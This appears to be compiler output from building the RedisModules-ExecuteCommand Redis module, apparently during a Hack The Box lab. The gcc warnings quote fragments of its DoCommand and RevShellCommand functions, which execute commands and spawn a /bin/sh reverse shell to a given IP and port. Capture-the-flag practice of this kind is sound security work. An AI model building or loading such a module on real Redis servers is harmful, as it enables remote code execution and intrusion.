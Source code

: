 ```bash
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o vector.o vector.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o alloc.o alloc.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o periodic.o periodic.c
ar rcs librmutil.a util.o strings.o sds.o vector.o alloc.o periodic.o
make[2]: Leaving directory '/home/tgihf/workspace/htb/boxes/shared/RedisModules-ExecuteCommand/rmutil'
gcc -I../ -Wall -g -fPIC -lc -lm -std=gnu99     -c -o module.o module.c
module.c: In function ‘DoCommand’:
module.c:16:29: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   16 |                 char *cmd = RedisModule_StringPtrLen(argv[1], &cmd_len);
      |                             ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:23:29: warning: implicit declaration of function ‘strlen’ [-Wimplicit-function-declaration]
   23 |                         if (strlen(buf) + strlen(output) >= size) {
      |                             ^~~~~~
module.c:11:1: note: include ‘<string.h>’ or provide a declaration of ‘strlen’
   10 | #include <netinet/in.h>
  +++ |+#include <string.h>
   11 |
module.c:23:29: warning: incompatible implicit declaration of built-in function ‘strlen’ [-Wbuiltin-declaration-mismatch]
   23 |                         if (strlen(buf) + strlen(output) >= size) {
      |                             ^~~~~~
module.c:23:29: note: include ‘<string.h>’ or provide a declaration of ‘strlen’
module.c:27:25: warning: implicit declaration of function ‘strcat’ [-Wimplicit-function-declaration]
   27 |                         strcat(output, buf);
      |                         ^~~~~~
module.c:27:25: note: include ‘<string.h>’ or provide a declaration of ‘strcat’
module.c:27:25: warning: incompatible implicit declaration of built-in function ‘strcat’ [-Wbuiltin-declaration-mismatch]
module.c:27:25: note: include ‘<string.h>’ or provide a declaration of ‘strcat’
module.c:29:80: warning: incompatible implicit declaration of built-in function ‘strlen’ [-Wbuiltin-declaration-mismatch]
   29 |                 RedisModuleString *ret = RedisModule_CreateString(ctx, output, strlen(output));
      |                                                                                ^~~~~~
module.c:29:80: note: include ‘<string.h>’ or provide a declaration of ‘strlen’
module.c: In function ‘RevShellCommand’:
module.c:41:28: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   41 |                 char *ip = RedisModule_StringPtrLen(argv[1], &cmd_len);
      |                            ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:42:32: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   42 |                 char *port_s = RedisModule_StringPtrLen(argv[2], &cmd_len);
      |                                ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:48:38: warning: implicit declaration of function ‘inet_addr’ [-Wimplicit-function-declaration]
   48 |                 sa.sin_addr.s_addr = inet_addr(ip);
      |                                      ^~~~~~~~~
module.c:57:17: warning: argument 2 null where non-null expected [-Wnonnull]
   57 |                 execve("/bin/sh", 0, 0);
      |                 ^~~~~~
In file included from module.c:4:
/usr/include/unistd.h:561:12: note: in a call to function ‘execve’ declared ‘nonnull’
  561 | extern int execve (const char *__path, char *const __argv[],
      |            ^~~~~~
ld -o module.so module.o -shared -Bsymbolic  -L../rmutil -lrmutil -lc
make[1]: Leaving directory '/home/tgihf/workspace/htb/boxes/shared/RedisModules-ExecuteCommand/src'
cp ./src/module.so .

```